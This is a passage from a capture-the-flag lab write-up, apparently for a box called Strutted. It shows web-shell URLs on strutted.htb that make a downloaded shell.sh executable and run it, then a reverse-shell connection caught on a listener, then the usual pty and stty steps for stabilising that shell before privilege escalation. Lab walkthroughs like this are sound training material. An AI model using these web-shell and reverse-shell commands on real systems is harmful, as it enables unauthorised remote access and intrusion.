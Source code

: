 
It will download the file from our python server, then, we can give it permissions and execute it:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=chmod%20777%20%2Ftmp%2Fshell.sh
```

```
http://strutted.htb/shell.jsp?action=cmd&cmd=/tmp/shell.sh
```


If we check our listener, we can notice we got our connection:

![Pasted image 20250325143143.png](../../IMAGES/Pasted%20image%2020250325143143.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step would be stabilizing our shell:

1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![Pasted image 20250325143331.png](../../IMAGES/Pasted%20image%2020250325143331.png)

Let's start by checking the users:

